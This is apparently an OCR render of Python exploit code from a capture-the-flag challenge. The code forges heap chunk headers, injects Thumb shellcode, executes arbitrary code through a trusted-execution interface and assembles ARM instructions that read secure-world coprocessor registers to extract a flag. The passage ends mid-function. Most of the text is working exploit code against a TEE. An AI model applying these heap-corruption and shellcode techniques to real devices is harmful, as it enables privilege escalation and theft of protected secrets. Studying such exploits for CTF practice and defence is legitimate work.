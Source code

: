 ```python
    pl += p32(0x21)  # size
    pl += b"a" * 0x18

    pl += p32(0x20)  # prev_size
    pl += p32(0x21)  # size
    pl += p32(0x10AE - 12)
    pl += p32(0xD6F241)
    pl += b"a" * 0x10

    pl += p32(0x20)  # prev_size
    pl += p32(0x30)  # size
    pl += b"a" * 0x28

    pl += p32(0)  # prev_size
    pl += p32(0x31)  # size

    if isinstance(sel0_assem, str):
        sel0_shellcode = make_thumb_shellcode(sel0_assem)
    else:
        sel0_shellcode = sel0_assem
    assert b"\n" not in sel0_shellcode and len(sel0_shellcode) <= 0x400
    pl += sel0_shellcode

    el0_arbitrary_code_execute(
        f"""
        ldr x28, ={hex(TCI_BUF)};\n
        
        {asm_save_key(2, 0x10, b'')}
        {asm_save_key(3, 0x10, b'')}
        {asm_save_key(4, 0x10, b'')}
        
        {asm_save_key(4, 0x20, b'')}
        {asm_save_key(2, 0x400, b'')}
        
        {asm_save_key(5, 0xFFFFFFF0, pl)}
        
        {asm_save_key(6, 0x10, b'')}
        
        {asm_load_key(2)}
        """
        + el0_assem
    )

    tc_tci_call_flush()


def sel0_get_flag_assembly() -> str:
    SEL_WSM_ADDR = 0x2400000 - 0x2000

    assem = f"""
    movw r0, #{hex(SEL_WSM_ADDR&0xFFFF)};\n
    movt r0, #{hex((SEL_WSM_ADDR>>16)&0xFFFF)};\n
    mov r2, r0;\n
    """

    for i in range(8):
        assem += f"""
        mrc p15, 3, r1, c15, c12, {i};\n
        str r1, [r0], #4;\n
        """
    assem += """
    mov r1, #0x0009;\n
    add r1, r1, 1;\n
```